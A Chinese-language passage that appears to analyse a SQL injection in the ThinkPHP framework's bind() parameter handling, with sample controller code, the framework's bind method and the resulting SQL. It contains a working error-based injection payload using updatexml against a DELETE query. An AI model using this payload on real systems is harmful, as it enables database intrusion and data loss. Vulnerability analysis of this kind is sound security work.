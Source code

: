 但由于`parseSet`在`delete`方法中不存在,因此这里需要手动添加`bind`

```php
<?php
namespace Home\Controller;
use Think\Controller;
class IndexController extends Controller {
    public function index(){
        $User = M("user");
        $name = I('GET.name');
        $data['password']='123456';
        $res = $User->where(array('username'=>$name))->bind($data)->delete();
    }
}
```

```php
    /**
     * 参数绑定
     * @access public
     * @param string $key  参数名
     * @param mixed $value  绑定的变量及绑定参数
     * @return Model
     */
    public function bind($key,$value=false) {
        if(is_array($key)){
            $this->options['bind'] =    $key;
        }else{
            $num =  func_num_args();
            if($num>2){
                $params =   func_get_args();
                array_shift($params);
                $this->options['bind'][$key] =  $params;
            }else{
                $this->options['bind'][$key] =  $value;
            }        
        }
        return $this;
    }
```


`name[]=bind&name[]=password and updatexml(1,concat(0x7e,(select @@version),0x7e),1)`

thinkphp构造出的sql语句为

```
DELETE FROM `user` WHERE `username` = :'123456' and updatexml(1,concat(0x7e,(select @@version),0x7e),1)
```

实际执行语句为

```
DELETE FROM `user` WHERE `username` = '123456' and updatexml(1,concat(0x7e,(select @@version),0x7e),1)
```
